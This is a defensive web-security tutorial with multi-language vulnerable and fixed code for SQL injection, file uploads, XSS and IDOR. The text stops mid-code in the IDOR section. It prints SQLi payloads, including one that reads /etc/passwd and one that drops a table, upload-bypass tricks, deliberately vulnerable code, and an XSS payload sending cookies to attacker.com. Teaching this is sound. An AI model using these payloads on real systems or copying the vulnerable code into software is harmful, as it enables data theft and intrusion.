# 🛡️ Web Application Security: A Complete Deep-Dive Tutorial on the 7 Most Exploited Vulnerability Spots

> **Difficulty:** 🟨 Intermediate
> **Estimated Reading Time:** ~90 minutes
> **Last Updated:** 2026-09-08
> **Audience:** Web developers of any stack — Python, Node.js, PHP, Ruby, Java, Go, or any other language/framework.
> **Goal:** Understand *how* attackers think, *where* they strike, and *how* to harden your web applications — using principles that apply universally, with multi-language code examples.

---

## 📌 Table of Contents

1. [Why This Matters: The Attacker's Mindset](#1-why-this-matters-the-attackers-mindset)
2. [Prerequisites & Learning Objectives](#2-prerequisites--learning-objectives)
3. [Overview: The 7 Attack Surfaces](#3-overview-the-7-attack-surfaces)
4. [SQL Injection via Search Forms](#4-sql-injection-via-search-forms)
5. [Malicious File Uploads](#5-malicious-file-uploads)
6. [XSS via Comments & Profile Fields](#6-xss-via-comments--profile-fields)
7. [IDOR via URLs & Parameters](#7-idor-via-urls--parameters)
8. [Brute Force via Login Forms](#8-brute-force-via-login-forms)
9. [Mass Assignment via API Endpoints](#9-mass-assignment-via-api-endpoints)
10. [Session & Cookie Misconfiguration](#10-session--cookie-misconfiguration)
11. [Common Pitfalls & Troubleshooting](#11-common-pitfalls--troubleshooting)
12. [Testing Strategies](#12-testing-strategies)
13. [Best Practices & Migration Guide](#13-best-practices--migration-guide)
14. [Anti-Patterns](#14-anti-patterns)
15. [Performance Considerations](#15-performance-considerations)
16. [Hands-On Labs](#16-hands-on-labs)
17. [Pro Tips](#17-pro-tips)
18. [Universal Security Checklist](#18-universal-security-checklist)
19. [Self-Assessment Checklist](#19-self-assessment-checklist)
20. [Practice Exercises (With Solutions)](#20-practice-exercises-with-solutions)
21. [Test Your Understanding](#21-test-your-understanding)
22. [Question Bank — 50 Questions](#22-question-bank--50-questions)
23. [Common Interview Questions](#23-common-interview-questions)
24. [Summary & Key Takeaways](#24-summary--key-takeaways)
25. [Further Reading & Resources](#25-further-reading--resources)
26. [Next Steps: Your Learning Path](#26-next-steps-your-learning-path)

---

## 1. Why This Matters: The Attacker's Mindset

Most developers think about security as something to bolt on at the end of a project. Attackers think about it from the opposite direction — they look for **trust boundaries**: places where your code *assumes* user input is safe, or *assumes* a user is authorized to perform an action.

These assumptions are the real vulnerability, not the language or the framework.

> **The Golden Rule of Web Security:**
> *Never trust user input. Always validate, sanitize, and authorize — regardless of your technology stack.*



> 💡 **Aha Moment:** A vulnerability is rarely "bad code" — it is an *unverified assumption*. Every fix in this tutorial follows the same pattern: find the assumption, then replace it with an explicit check.

---

## 2. Prerequisites & Learning Objectives

### Prerequisites

To get the most out of this tutorial you should have:

- Working knowledge of **at least one server-side language** (Python, JavaScript/Node.js, PHP, Java, Go, Ruby…)
- Basic **SQL** (SELECT, WHERE, INSERT, UPDATE) and access to any relational database for the labs
- **HTTP fundamentals**: requests, responses, headers, cookies, and status codes
- Basic **HTML/JavaScript** — specifically, what a `<script>` tag does when it reaches a browser
- (Optional) Docker installed, for the deliberately vulnerable apps used in the Hands-On Labs (Section 16)

### Learning Objectives

By the end of this tutorial, you will be able to:

1. **Identify** the 7 most exploited vulnerability classes in any web application, regardless of stack
2. **Explain** how attackers discover and exploit each vulnerability, step by step
3. **Write** both vulnerable and fixed implementations in multiple languages — and articulate *why* the fix works
4. **Apply** the correct defense per vulnerability: parameterization, magic-byte validation, output escaping, ownership checks, rate limiting, field whitelisting, and cookie hardening
5. **Design** layered defenses (defense-in-depth) instead of relying on any single control
6. **Test** your application against each vulnerability class with unit, integration, and automated scanning techniques
7. **Audit** an existing codebase and produce a prioritized hardening plan

> ✅ **Quick Recap:** This tutorial maps ordinary features (search box, upload form, login page, URL, API endpoint, cookie) to their attack, their universal fix, and their test — a 1:1 match with the OWASP Top 10.

---

## 3. Overview: The 7 Attack Surfaces

These 7 vulnerabilities appear in virtually every web application regardless of technology stack. They are not exotic edge cases — they live in the most ordinary features: search boxes, upload forms, login pages, and URL parameters.



| # | Vulnerability | Risk Level | Common Impact |
|---|---|---|---|
| 1 | SQL Injection | 🔴 Critical | Full database dump, data loss |
| 2 | File Upload Exploit | 🔴 Critical | Remote code execution |
| 3 | XSS | 🟠 High | Session theft, defacement |
| 4 | IDOR | 🟠 High | Unauthorized data access |
| 5 | Brute Force | 🟡 Medium | Account takeover |
| 6 | Mass Assignment | 🟠 High | Privilege escalation |
| 7 | Session Hijacking | 🟠 High | Account impersonation |

> ⚠️ **Why "Ordinary Features" Matter:** Security reviews tend to focus on exotic logic, yet breach reports consistently trace back to these seven mundane surfaces. Treat every user-reachable input as an attack surface by default.

---

## 4. SQL Injection via Search Forms

### What Is It?

SQL Injection (SQLi) occurs when an attacker inserts malicious SQL code into a user-supplied input that gets **embedded directly** into a database query string. Instead of searching for a product, the attacker rewrites the query itself — dumping your entire database, bypassing authentication, or deleting data.

### How the Attack Works



### The Anatomy of a SQL Injection Payload

```
Normal input:    laptop
Resulting query: SELECT * FROM products WHERE name LIKE '%laptop%'

Injected input:  ' OR '1'='1
Resulting query: SELECT * FROM products WHERE name LIKE '%' OR '1'='1%'
                                                            ^^^^^^^^^^^
                                                    Always evaluates to TRUE
                                                    — returns every row
```

### Advanced Payloads Attackers Use

```sql
-- Dump all users (UNION-based injection)
' UNION SELECT id, email, password_hash, NULL FROM users --

-- Read files from the server (MySQL + file privileges)
' UNION SELECT LOAD_FILE('/etc/passwd'), NULL, NULL --

-- Drop a table
'; DROP TABLE orders; --

-- Bypass a login check
' OR 1=1 --
```

> 💡 **Pro Insight:** Attackers do not type payloads by hand at scale — they use automated tools (sqlmap, Burp Intruder) that probe every parameter. Your defense must hold against *automation*, not just one clever string.

### ❌ Vulnerable Code (Multiple Languages)

```python
# Python — Direct string formatting into query (VULNERABLE)
keyword = request.args.get('q')
cursor.execute("SELECT * FROM products WHERE name LIKE '%" + keyword + "%'")
```

```javascript
// Node.js — Template literal in raw query (VULNERABLE)
const keyword = req.query.q;
db.query(`SELECT * FROM products WHERE name LIKE '%${keyword}%'`);
```

```php
// PHP — String concatenation in raw query (VULNERABLE)
$keyword = $_GET['q'];
$result = $pdo->query("SELECT * FROM products WHERE name LIKE '%$keyword%'");
```

All three examples share the same fatal flaw: **user input is treated as SQL syntax**.

### ✅ Fixed Code — Parameterized Queries (Universal Solution)

The fix is the same concept in every language: **never concatenate user input into SQL**. Use parameterized queries (also called prepared statements), which separate the SQL structure from the data entirely.

```python
# Python (psycopg2 / sqlite3 / any DB-API 2.0 driver) — FIXED
keyword = request.args.get('q', '')
cursor.execute(
    "SELECT * FROM products WHERE name LIKE %s",
    (f"%{keyword}%",)   # Data passed separately — never part of the SQL string
)
```

```javascript
// Node.js (mysql2 / pg / better-sqlite3) — FIXED
const keyword = req.query.q || '';
db.query(
    'SELECT * FROM products WHERE name LIKE ?',
    [`%${keyword}%`]    // ? placeholder — value injected safely by the driver
);
```

```php
// PHP (PDO — works with MySQL, PostgreSQL, SQLite) — FIXED
$keyword = $_GET['q'] ?? '';
$stmt = $pdo->prepare("SELECT * FROM products WHERE name LIKE ?");
$stmt->execute(["%$keyword%"]);
$products = $stmt->fetchAll();
```

```java
// Java (JDBC) — FIXED
String keyword = request.getParameter("q");
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM products WHERE name LIKE ?"
);
stmt.setString(1, "%" + keyword + "%");
ResultSet rs = stmt.executeQuery();
```

```go
// Go (database/sql) — FIXED
keyword := r.URL.Query().Get("q")
rows, err := db.Query(
    "SELECT * FROM products WHERE name LIKE $1",
    "%"+keyword+"%",
)
```

> 💡 **Key Insight:** With parameterization, the database *first* compiles the query plan, *then* binds the value. The value can never change the structure of the query — the two travel on separate channels.

### How Parameterized Queries Protect You



### ORM Safety

Most modern ORMs (Object-Relational Mappers) use parameterized queries internally, making them safe by default:

| Stack | ORM / Query Builder | Safe by Default? |
|---|---|---|
| Python | SQLAlchemy, Django ORM | ✅ Yes |
| Node.js | Sequelize, Prisma, Knex | ✅ Yes |
| PHP | Doctrine, Eloquent | ✅ Yes |
| Java | Hibernate, JPA | ✅ Yes |
| Ruby | ActiveRecord | ✅ Yes |
| Go | GORM | ✅ Yes |

> ⚠️ **Warning:** Even ORMs have escape hatches (raw query methods like `.raw()`, `whereRaw()`, `execute()`). These bypass protection and require manual parameterization.

### 📦 Real-World Use Cases

| Scenario | Risk Without Fix | Fix |
|---|---|---|
| E-commerce search bar | Attacker dumps all orders and payment tokens | Parameterized queries |
| Admin user search panel | Attacker enumerates all admin accounts | ORM with binding |
| Blog post tag filter | Attacker reads unpublished private drafts | Prepared statements |
| Hotel booking date range | Attacker manipulates booking logic | Bound parameters |

### 🔁 Migration Guide: Fixing Legacy String-Concatenated Queries

When inheriting an older codebase, migrate incrementally instead of a risky big-bang rewrite:

1. **Detect** — grep for `.execute(`, `query(`, `raw(`, `whereRaw(`, and string concatenation near SQL keywords
2. **Prioritize** — start with authentication, payment, and admin endpoints
3. **Convert** — replace concatenation with placeholders one query at a time; keep behavior identical (LIKE wildcards stay in the *parameter value*)
4. **Verify** — add regression tests that submit payloads like `' OR '1'='1` and assert zero rows / no error
5. **Monitor** — log rejected suspicious inputs and alert on repeated patterns

---

## 5. Malicious File Uploads

### What Is It?

File upload forms become a backdoor when the server does not properly validate what is being stored — especially if uploaded files are web-accessible. An attacker can upload a script disguised as an image, then browse to it and have the server **execute arbitrary code** with full server privileges.

### How the Attack Works



### Common Bypass Techniques

```
1. Double Extension:     shell.php.jpg    (server reads last extension — or first)
2. Null Byte Injection:  shell.php%00.jpg (truncates at null byte in some languages)
3. MIME Spoofing:        Content-Type: image/jpeg  (but actual content is a script)
4. Polyglot Files:       Valid JPEG header + valid PHP/Python script body
5. Case Manipulation:    shell.PHP, shell.Php, shell.pHp
6. Alternative Extensions: shell.phtml, shell.phar, shell.shtml
```

### ❌ Vulnerable Code (Multiple Languages)

```python
# Python (Flask) — Trusts everything the client sends (VULNERABLE)
@app.route('/upload', methods=['POST'])
def upload():
    file = request.files['avatar']
    # 🚨 No validation, uses client-supplied filename, stores in public folder
    file.save(os.path.join('static/uploads', file.filename))
    return 'Uploaded!'
```

```javascript
// Node.js (Express + Multer) — Accepts any file type (VULNERABLE)
const storage = multer.diskStorage({
    destination: 'public/uploads/',           // 🚨 Web-accessible folder
    filename: (req, file, cb) => cb(null, file.originalname)  // 🚨 Client filename
});
const upload = multer({ storage });
```

```php
// PHP — No type checking, public storage (VULNERABLE)
move_uploaded_file(
    $_FILES['avatar']['tmp_name'],
    'public/uploads/' . $_FILES['avatar']['name']  // 🚨 Client-controlled name
);
```

### ✅ The Secure File Upload Architecture



### ✅ Fixed Code (Multiple Languages)

```python
# Python (Flask) — Secure implementation
import uuid, os

ALLOWED_EXTENSIONS = {'jpg', 'jpeg', 'png', 'webp'}
UPLOAD_FOLDER      = '/var/app/private_uploads'  # Outside web root

def allowed_file(file):
    # Check extension (whitelist, lowercased)
    ext = file.filename.rsplit('.', 1)[-1].lower()
    if ext not in ALLOWED_EXTENSIONS:
        return False
    # Check real content type (magic bytes)
    header = file.read(512)
    file.seek(0)
    import filetype
    detected = filetype.image_match(header)
    return detected is not None and detected.extension in {'jpg', 'jpeg', 'png', 'webp'}

@app.route('/upload', methods=['POST'])
@login_required
def upload_avatar():
    file = request.files.get('avatar')
    if not file or not allowed_file(file):
        return jsonify({'error': 'Invalid file type'}), 422

    # Generate a random, server-controlled filename
    ext      = file.filename.rsplit('.', 1)[-1].lower()
    filename = f"{uuid.uuid4().hex}.{ext}"
    file.save(os.path.join(UPLOAD_FOLDER, filename))

    # Save path to DB, serve through a route — never directly
    current_user.avatar_path = filename
    db.session.commit()
    return jsonify({'success': True})
```

```javascript
// Node.js (Express + Multer) — Secure implementation
const multer  = require('multer');
const path    = require('path');
const crypto  = require('crypto');
const fs      = require('fs');
const { fileTypeFromBuffer } = require('file-type'); // Reads magic bytes

const ALLOWED_MIMES = ['image/jpeg', 'image/png', 'image/webp'];
const PRIVATE_DIR   = '/var/app/private_uploads'; // Outside public/

const upload = multer({
    storage: multer.memoryStorage(), // Buffer first, validate before saving
    limits: { fileSize: 2 * 1024 * 1024 } // 2MB
});

app.post('/upload', requireAuth, upload.single('avatar'), async (req, res) => {
    const buffer = req.file?.buffer;
    if (!buffer) return res.status(400).json({ error: 'No file provided' });

    // Detect real MIME from magic bytes — not the Content-Type header
    const type = await fileTypeFromBuffer(buffer);
    if (!type || !ALLOWED_MIMES.includes(type.mime)) {
        return res.status(422).json({ error: 'Invalid file type' });
    }

    // Random server-generated filename
    const filename = `${crypto.randomUUID()}.${type.ext}`;
    fs.writeFileSync(path.join(PRIVATE_DIR, filename), buffer);

    // Save filename reference to DB
    await User.update({ avatarPath: filename }, { where: { id: req.user.id } });
    res.json({ success: true });
});

// Serve via a protected route — never via static middleware
app.get('/avatar/:filename', requireAuth, async (req, res) => {
    const user = await User.findByPk(req.user.id);
    if (!user || user.avatarPath !== req.params.filename) return res.sendStatus(403);
    res.sendFile(path.join(PRIVATE_DIR, req.params.filename));
});
```

### What to Validate — Layered Approach

| Check | What It Catches | How to Do It |
|---|---|---|
| File extension whitelist | Basic extension tricks | Server-side string check |
| Content-Type header | Nothing alone (spoofable) | Never rely on this alone |
| Magic bytes / file signature | Polyglots, MIME spoofing | `file-type` (JS), `filetype`/`python-magic` (Python), `finfo` (PHP) |
| File size limit | Denial-of-service via large files | Before saving, check byte length |
| Image dimension check | Some polyglot exploits | Try opening as an image and reading dimensions |
| Antivirus scan | Malware in documents | ClamAV or cloud scanning API |

> ⚠️ **Note on `imghdr`:** Python's standard-library `imghdr` module was removed in Python 3.13. Use the `filetype` or `python-magic` package for magic-byte detection instead.

### 📦 Real-World Use Cases

| Scenario | Risk | Mitigation |
|---|---|---|
| Profile picture | Script execution via webshell | Magic byte check + private storage |
| Resume/CV upload | Macro-laced Office files | Whitelist PDFs only + convert format |
| Document sharing portal | Stored XSS via SVG | Disallow SVG or sanitize server-side |
| E-commerce product image | Disk exhaustion / webshell | Size limit + type validation |

---

## 6. XSS via Comments & Profile Fields

### What Is It?

Cross-Site Scripting (XSS) happens when user-supplied content is rendered back into a web page **without proper escaping**. The browser has no way to tell the difference between your application's JavaScript and the attacker's injected JavaScript — it runs both.

### The Three Types of XSS



### The Most Dangerous Payload: Session Theft

```javascript
// An attacker posts this as a comment or profile bio:
<script>
  fetch('https://attacker.com/steal?c=' + encodeURIComponent(document.cookie));
</script>

// Every logged-in user who views the page sends their session cookie
// to the attacker's server automatically.
```

### How Stored XSS Works End-to-End



### ❌ Vulnerable Code (Multiple Languages)

```python
# Python (Flask/Jinja2) — Using |safe disables auto-escaping (VULNERABLE)
@app.route('/post/<int:id>')
def view_post(id):
    post = Post.query.get_or_404(id)
    comments = Comment.query.filter_by(post_id=id).all()
    return render_template('post.html', post=post, comments=comments)
```

```html
<!-- post.html — |safe tells Jinja2 to render raw HTML -->

  <div class="comment">{{ comment.body | safe }}</div>  <!-- 🚨 XSS! -->

```

```javascript
// Node.js — Direct innerHTML assignment (VULNERABLE)
document.getElementById('comment').innerHTML = userComment; // 🚨 XSS!

// Express — res.send without escaping (VULNERABLE)
app.get('/search', (req, res) => {
    res.send(`Results for: ${req.query.q}`); // 🚨 Reflected XSS!
});
```

```java
// Java JSP — Unescaped expression (VULNERABLE)
<div><%= request.getParameter("comment") %></div>  <%-- 🚨 XSS! --%>
```

### ✅ Fixed Code — Three Layers of Defense

**Layer 1: Template Auto-Escaping (First Line of Defense)**

Most modern templating engines escape by default. Use default syntax — never opt out of escaping unless you have a specific, sanitized reason.

```html
<!-- Jinja2 (Python) — default {{ }} escapes automatically -->

  <div class="comment">{{ comment.body }}</div>  <!-- ✅ Safe -->


<!-- Handlebars (Node.js) — double braces escape -->
{{comment.body}}     <!-- ✅ Safe — HTML-escaped -->
{{{comment.body}}}   <!-- 🚨 Unsafe — raw HTML, never use with user input -->

<!-- EJS (Node.js) — use <%=, not <%- -->
<div><%= comment.body %></div>   <!-- ✅ Safe -->
<div><%- comment.body %></div>   <!-- 🚨 Unsafe — raw output -->

<!-- Thymeleaf (Java) — th:text escapes, th:utext does not -->
<div th:text="${comment.body}">  </div>  <!-- ✅ Safe -->
<div th:utext="${comment.body}"> </div>  <!-- 🚨 Unsafe -->

<!-- Go html/template — escapes by default -->
{{ .Comment.Body }}  <!-- ✅ Safe -->
```

**Layer 2: Server-Side Sanitization for Rich Text**

When you genuinely need to allow some HTML (e.g., from a rich text editor like Quill or TipTap), sanitize it on the server **before** storing it, using a dedicated library:

```python
# Python — using bleach
import bleach

ALLOWED_TAGS  = ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'ol', 'li']
ALLOWED_ATTRS = {'a': ['href', 'rel'], '*': ['class']}

def store_comment(body):
    safe_body = bleach.clean(body, tags=ALLOWED_TAGS, attributes=ALLOWED_ATTRS)
    comment   = Comment(body=safe_body)
    db.session.add(comment)
    db.session.commit()
```

```javascript
// Node.js — using sanitize-html (or DOMPurify server-side via jsdom)
const sanitizeHtml = require('sanitize-html');

const safeBody = sanitizeHtml(rawBody, {
    allowedTags:       ['b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'ol', 'li'],
    allowedAttributes: { a: ['href'] },
});
await Comment.create({ body: safeBody });
```

**Layer 3: Content Security Policy (CSP) Header**

CSP is a browser-enforced policy that tells browsers which scripts are allowed to execute. Even if XSS slips through, a strict CSP prevents attacker scripts from loading:

```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
```

| CSP Directive | Effect |
|---|---|
| `default-src 'self'` | Only load resources from your own domain |
| `script-src 'self'` | Only execute scripts hosted on your domain |
| `object-src 'none'` | Disable Flash, plugins |
| `img-src 'self' data:` | Images from own domain + inline data URIs |

### HTML Character Escaping Reference

| Character | Escaped As | Why It Matters |
|---|---|---|
| `<` | `&lt;` | Prevents opening a new tag |
| `>` | `&gt;` | Prevents closing a tag |
| `"` | `&quot;` | Prevents breaking out of an attribute |
| `'` | `&#039;` | Prevents breaking out of single-quoted attribute |
| `&` | `&amp;` | Prevents starting an HTML entity |

### DOM-Based XSS — A Separate Client-Side Problem

```javascript
// 🚨 Vulnerable — reads from URL and writes to DOM unsafely
const name = new URLSearchParams(location.search).get('name');
document.getElementById('greeting').innerHTML = 'Hello, ' + name;

// ✅ Fixed — use textContent, not innerHTML for plain text
document.getElementById('greeting').textContent = 'Hello, ' + name;

// ✅ Fixed — use DOMPurify if you need to render HTML
import DOMPurify from 'dompurify';
document.getElementById('greeting').innerHTML = DOMPurify.sanitize(name);
```

### 📦 Real-World Use Cases

| Scenario | XSS Vector | Fix |
|---|---|---|
| Blog comments | Stored XSS — script in body | Auto-escape + bleach/sanitize-html |
| User display name | Stored XSS in nav/header | Default template escaping |
| Search results page | Reflected XSS via `?q=` parameter | Escape output, validate input |
| Email notifications | HTML injection in email body | `htmlspecialchars()` / `escape()` |
| Error messages | Reflected XSS via error detail | Never echo raw request data |

---

## 7. IDOR via URLs & Parameters

### What Is It?

Insecure Direct Object Reference (IDOR) occurs when your application uses a user-controllable value — like a numeric ID in a URL — to look up a resource, **without verifying that the requesting user is actually authorized** to access that specific resource.

The system correctly authenticates ("who are you?") but fails to authorize ("are you allowed to do *this* specifically?").

### The Core Problem



### IDOR Attack Methodology (Automated)



### ❌ Vulnerable Code (Multiple Languages)

```python
# Python (Flask) — Finds invoice by ID, no ownership check (VULNERABLE)
@app.route('/invoices/<int:invoice_id>')
@login_required
def view_invoice(invoice_id):
    invoice = Invoice.query.get_or_404(invoice_id)  # 🚨 No ownership check
    return render_template('invoice.html', invoice=invoice)
```

```javascript
// Node.js (Express) — Same problem (VULNERABLE)
app.get('/invoices/:id', requireAuth, async (req, res) => {
    const invoice = await Invoice.findByPk(req.params.id); // 🚨 Any ID works
    if (!invoice) return res.sendStatus(404);
    res.json(invoice);
});
```

```java
// Java (Spring) — No ownership verification (VULNERABLE)
@GetMapping("/invoices/{id}")
public ResponseEntity<Invoice> getInvoice(@PathVariable Long id) {
    return invoiceRepository.findById(id) // 🚨 Any user can access any invoice
        .map(ResponseEntity::ok)
        .orElse(ResponseEntity.notFound().build());
}
```

### ✅ Fixed Code — Always Scope to the Authenticated User

```python
# Python (Flask) — Filter by both ID and current user (FIXED)
@app.route('/invoices/<int:invoice_id>')
@login_required
def view_invoice(invoice_id):
    invoice = Invoice.query.filter_by(
        id=invoice_id,
        user_id=current_user.id   # ✅ Must belong to logged-in user
    ).first_or_404()
    return render_template('invoice.html', invoice=invoice)
```

```javascript
// Node.js (Express) — Scope query to authenticated user (FIXED)
app.get('/invoices/:id', requireAuth, async (req, res) => {
    const invoice = await Invoice.findOne({
        where: {
            id:     req.params.id,
            userId: req.user.id    // ✅ Must belong to this user
        }
    });
    if (!invoice) return res.sendStatus(404); // Return 404 — don't confirm existence
    res.json(invoice);
});
```

```java
// Java (Spring) — Use authentication context in query (FIXED)
@GetMapping("/invoices/{id}")
public ResponseEntity<Invoice> getInvoice(
    @PathVariable Long id,
